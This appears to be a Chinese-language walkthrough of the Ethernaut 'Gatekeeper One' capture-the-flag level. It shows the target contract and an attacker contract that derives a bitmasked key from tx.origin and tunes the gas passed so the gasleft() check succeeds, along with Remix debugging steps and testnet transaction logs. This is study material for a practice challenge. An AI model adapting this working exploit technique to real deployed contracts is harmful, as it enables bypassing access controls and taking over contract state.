




Make it past the gatekeeper and register as an entrant to pass this level.

##### Things that might help:

- Remember what you've learned from the Telephone and Token levels.
- You can learn more about the special function `gasleft()`, in Solidity's documentation (see [here](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html) and [here](https://docs.soliditylang.org/en/v0.8.3/control-structures.html#external-function-calls)).

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

// Goerli address: 0xFDfe657A2Ba7c7592B3d84E8618B6ac52eC3Bf7f
contract GatekeeperOne {

  using SafeMath for uint256;
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```


这个puzzle需要用到的技术概念可以参考这个链接：https://medium.com/coinmonks/ethernaut-lvl-13-gatekeeper-1-walkthrough-how-to-calculate-smart-contract-gas-consumption-and-eb4b042d3009


**gateOne** modifier很简单，msg.sender != tx.origin, 要想使其成立，中间再加有一个contract就可以了


**gateThree** modifier则需要满足一系列的require

如果想要使一个x满足 uint32(x) == uint16(x)，uint16转为uint32之后的高16位必定是自动填补的0，所以保证uint32的高16位是0就可以了，那么让 x = x & 0x0000FFFF 屏蔽掉了高16位使其全部为0

如果想要使一个x满足 uint32(x) != uint64(x)，uint32转为uint64之后的高32位必定是自动填补的0，要保证高32位不同，那么让 x =  x & 0xFFFFFFFF+0000FFFF 就可保留x的高32位内容

如果想要使一个x满足 uint32(x) == uint16(tx.origin)，满足这一条让 x = tx.origin & 0x0000FFFF 就行了，和第一条重叠了

所以最终的 **bytes8 key = bytes8(tx.origin) & 0xFFFFFFFF0000FFFF;**


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "hardhat/console.sol";

interface GatekeeperOne {
   function enter(bytes8) external returns (bool);
}

// Goerli address: 0x0B8a25D421FAd49042E874d95D021fab2862930C
contract Hack {
	GatekeeperOne gate = GatekeeperOne(address(0xFDfe657A2Ba7c7592B3d84E8618B6ac52eC3Bf7f));

    bytes8 key = bytes8(uint64(uint160(tx.origin)) & 0xFFFFFFFF0000FFFF);

    function enterGate() public {
      (bool success,) = 
        address(gate).call{gas: 8191 * 4 + 211}(abi.encodeWithSignature("enter(bytes8)", key));

		console.log(success);
    }
}
```

**gateTwo** modifier需要满足 gasleft().mod(8191) == 0 ，首先gasleft()是solidity的内置函数，就是用来返回remaining gas的，这里为什么使用address.call形式呢，是因为**enter**函数没有payable，所以直接**gate.enter**会报错

接下来，当我们调用**enterGate**，在**enterGate**中又调用了**enter**，当执行到**gateTwo** modifier的时候会获取当前剩余的gas值，对其进行模8191运算，所以想要通过这个modifier的关键点在于如何获取一个准确的值，因为执行opcode会消耗gas，所以我们需要在执行到enter的gateTwo的gasleft这个函数之前消耗了多少gas，所以需要进行debug，此时我们设置一个整数值**call{gas: 3000}**，便于计算，然后将两个contract都部署到remix的Remix VM(London)中，然后点击Hack contract上的enterGate按钮，再点下边的debug，进行debug



如上图所示，进入到这里，在还没执行CALL这个opcode之前，注意右边代码区，我们还在enterGate函数中



当执行了CALL之后就进入到enter中了，此时可以看到remaining gas是3000 （如果之前设置一个比较高的值5000或者80000，运行到这里gas会变少，应该是remix的bug，这里先忽略）



当debug到这里的时候，我们看到了GAS这个opcode，它就是gasleft()编译产生的，并且右边代码区也显示了我们正在gateTwo中，此时我们已经执行了GAS(Get the amount of available gas, including the corresponding reduction for the cost of this instruction) ，还没有执行SWAP1，此时的remaining gas是2789，所以这也就意味着从进入刚进入enter时候的3000，到这里一共消耗了3000 - 2789 = 211这么多的gas，所以我们获得了准确的gas消耗，就可以在开始的时候传入准确的数值来达到模8191为0的目的了

所以我们将代码改为 **call{gas: 8191 * 4 + 211}** ，并且重新将两个contract部署到**Goerli testnet**上，并且点击Hack中的enterGate会弹出Metamask来签署交易，记得在设置里将gas limit该为60000，交易上链之后再点击Gatekeeper One中的entrant



可以看到entrant已经变为我们Metamask中的地址了

最后，为了完成puzzle，我们需要把Hack contract中GatekeeperOne的地址改为instance的值，再走一边上述流程，但是结果可能会不一样，点击entrant之后，它的值全是0，没有发生变化，具体原因不清楚，我个人猜测是GatekeeperOne contract编译的差别，所以这里直接对点击enterGate产生的那笔交易进行debug，debug出来从进入enter到gasleft()一共消耗了196 gas，而不是之前的211，所以修改代码重新部署并再走一遍流程，这时点击entrant终于变为Metamask中的地址了

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "hardhat/console.sol";

interface GatekeeperOne {
   function enter(bytes8) external returns (bool);
}

// Goerli address: 0x9304E2B1050e152bE16631fdA6500d96cF3F0e1a
contract Hack {
	GatekeeperOne gate = GatekeeperOne(address(0xFDfe657A2Ba7c7592B3d84E8618B6ac52eC3Bf7f));

    bytes8 key = bytes8(uint64(uint160(tx.origin)) & 0xFFFFFFFF0000FFFF);

    function enterGate() public {
      (bool success,) = 
        address(gate).call{gas: 8191 * 4 + 196}(abi.encodeWithSignature("enter(bytes8)", key));

		console.log(success);
    }
}
```


如果都部署到Remix VM中的话，debug时候会有个bug，就是remix不能像Metammask那样指定发起交易能使用多少gas，这个[issue](https://github.com/ethereum/remix-project/issues/147)是remix官网GitHub上一个人提的，总之一句话用remix gui发起的交易有问题，部署到testnet上用Metamask发起交易才是最正确的做法，后边先暂时不用看


下边是部署到remix的vm中，点击enterGate之后的log，由于这笔交易是remix gui发起的，可以看到，整笔交易提供的gas是59795

```json
status	true Transaction mined and execution succeed
transaction hash	0xf9ab997e885e74fb7944dc95c5f86349542bb82d98a1920bb5ac52411ce4868b
from	0x5B38Da6a701c568545dCfcB03FcB875f56beddC4
to	Hack.enterGate() 0xd8b934580fcE35a11B58C6D73aDeE468a2833fa8
gas	59795 gas
transaction cost	29577 gas 
execution cost	29577 gas 
input	0xc8a...d2499
decoded input	{}
decoded output	{}
logs	[]
val	0 wei
```


```json

status	true Transaction mined and execution succeed
transaction hash	0xed0696e5d1e64bd6f66c562e99fea6fc99f8bebbf5d05d0da2aea60667c4e678
from	0x7FA7fB4D35f0F4F3959A65098D1D9Cf69E49Ac48
to	Hack.enterGate() 0x0B8a25D421FAd49042E874d95D021fab2862930C
gas	60000 gas
transaction cost	51995 gas 
input	0xc8a...d2499
decoded input	{}
decoded output	 - 
logs	[]
val	0 wei
```

设置了gaslimit为60,000

部署到Goerli testnet上之后一切都正常了